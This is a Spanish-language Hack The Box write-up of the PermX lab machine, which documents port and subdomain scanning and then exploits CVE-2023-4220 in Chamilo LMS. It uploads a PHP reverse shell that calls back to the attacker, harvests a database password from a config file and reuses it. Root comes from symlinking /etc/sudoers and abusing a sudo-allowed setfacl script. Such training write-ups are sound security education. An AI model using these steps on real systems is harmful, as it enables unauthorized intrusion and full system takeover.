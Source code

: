 ```yaml
---
layout: single
title: PermX - Hack The Box
excerpt: "Máquina fácil con explotación de CVE y escalada de privilegios manual."
date: 2024-07-09
classes: wide
header:
  teaser: assets/images/htb-writeup-PermX/PermX_Teaser.png
  teaser_home_page: true
  icon: assets/images/hackthebox.webp
categories:
  - hackthebox
tags:  
  - Box
  - cve
---
```

![](../assets/images/htb-writeup-PermX/PermX.png)

**RECON**

**PORTS SCAN**

```ruby
>$ nmap -A -sV -sC permx.htb -oA nmap/PermX
Starting Nmap 7.94 ( https://nmap.org ) at 2024-07-08 10:52 EDT
Nmap scan report for 10.129.84.129
Host is up (0.041s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e2:5c:5d:8c:47:3e:d8:72:f7:b4:80:03:49:86:6d:ef (ECDSA)
|_  256 1f:41:02:8e:6b:17:18:9c:a0:ac:54:23:e9:71:30:17 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://permx.htb
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
En el puerto 80 hay un servidor web que está dirigido a http://permx.htb. Al añadirlo a los vhosts y acceder a la URL, encontramos un sitio web estático que no contiene información relevante o interesante.


Después, al realizar una enumeración de subdominios utilizando wfuzz, se muestra un subdominio llamado lms.permx.htb.

```ruby
❯ wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --hc 302,404 -H "Host: FUZZ.permx.htb" permx.htb
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://permx.htb/
Total requests: 4989

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                      
=====================================================================

000000001:   200        586 L    2466 W     36182 Ch    "www"                                        
000000477:   200        352 L    940 W      19347 Ch    "lms" 

```
Hemos añadido los nuevos subdominios a ``/etc/hosts`` y ahora procederemos a visitar la página.

![](../assets/images/htb-writeup-PermX/lms-login.png)

Mientras investigaba la versión de Chamilo y las vulnerabilidades recientes, encontré un exploit en GitHub con un POC (prueba de concepto) de ejecución de código remoto no autenticado.

[CVE-2023-4220](https://github.com/Ziad-Sakr/Chamilo-LMS-CVE-2023-4220-Exploit/tree/main)

Te recomiendo usar la revershell de pentestmonkey.

[Pentestmonkey](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)

```ruby
❯ bash CVE-2023-4220.sh -f rev.php -h http://lms.permx.htb/  -p 443

The file has successfully been uploaded.

#    Use This leter For Interactive TTY ;)  
#    python3 -c 'import pty;pty.spawn("/bin/bash")'
#    export TERM=xterm
#    CTRL + Z
#    stty raw -echo; fg

# Starting Reverse Shell On Port 443 . . . . . . .                                                            
                                                                                                              
listening on [any] 443 ...
connect to [10.10.14.18] from (UNKNOWN) [10.129.86.51] 47548
Linux permx 5.15.0-113-generic #123-Ubuntu SMP Mon Jun 10 08:16:17 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 17:34:08 up 18:45,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
www-data@permx:/$
www-data@permx:/$
www-data@permx:/$ ls
bin   dev  home  lib32  libx32      media  opt   root  sbin  sys  usr
boot  etc  lib   lib64  lost+found  mnt    proc  run   srv   tmp  var
```
Después de revisar un poco las configuraciones, pensé que si había un panel de login, probablemente habría alguna configuración vinculada a una base de datos. Fue entonces cuando encontré credenciales de la base de datos.

```ruby
www-data@permx:/var/www/chamilo/app/config$ cat configuration.php

<?php
// Chamilo version 1.11.24
// File generated by /install/index.php script - Sat, 20 Jan 2024 18:20:32 +0000
/* For licensing terms, see /license.txt */
/**
 * This file contains a list of variables that can be modified by the campus site's server administrator.
 * Pay attention when changing these variables, some changes may cause Chamilo to stop working.
 * If you changed some settings and want to restore them, please have a look at
 * configuration.dist.php. That file is an exact copy of the config file at install time.
 * Besides the $_configuration, a $_settings array also exists, that
 * contains variables that can be changed and will not break the platform.
 * These optional settings are defined in the database, now
 * (table settings_current).
 */

// Database connection settings.
$_configuration['db_host'] = 'localhost';
$_configuration['db_port'] = '3306';
$_configuration['main_database'] = 'chamilo';
$_configuration['db_user'] = 'chamilo';
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
// Enable access to database management for platform admins.
$_configuration['db_manager_enabled'] = false;

/**
```
Resulta que el usuario mtz reutilizó la contraseña... ahora tenemos acceso a su cuenta.

Una vez dentro, descubrimos que el usuario mtz tiene permisos sudo para ejecutar un script de bash que modifica los permisos de archivos de cualquier usuario....
```ruby
mtz@permx:~$ sudo -l 
Matching Defaults entries for mtz on permx:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User mtz may run the following commands on permx:
    (ALL : ALL) NOPASSWD: /opt/acl.sh
```

```bash
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
```

Utilicé este script para cambiar los permisos del archivo sudoers y lo modifiqué para otorgarle al usuario mtz privilegios sudo en el host. Para lograrlo, creé un enlace simbólico al archivo /etc/sudoers en el directorio /home/mtz y utilicé el script para darle permisos de lectura y escritura al usuario.

```ruby
mtz@permx:~$ ln -s /etc/sudoers ./tada
mtz@permx:~$ sudo /opt/acl.sh mtz rw /home/mtz/tada
```

Modifica el archivo de sudoers.

```ruby
. . .

@includedir /etc/sudoers.d
mtz ALL=(ALL:ALL) NOPASSWD: ALL
```
Ahora ya podemos hacer login a root!!

```ruby
mtz@permx:~$ sudo su
root@permx:/home/mtz# cat /root/root.txt
xxxxxxxxxxxxxxxxxxxxxxx
```
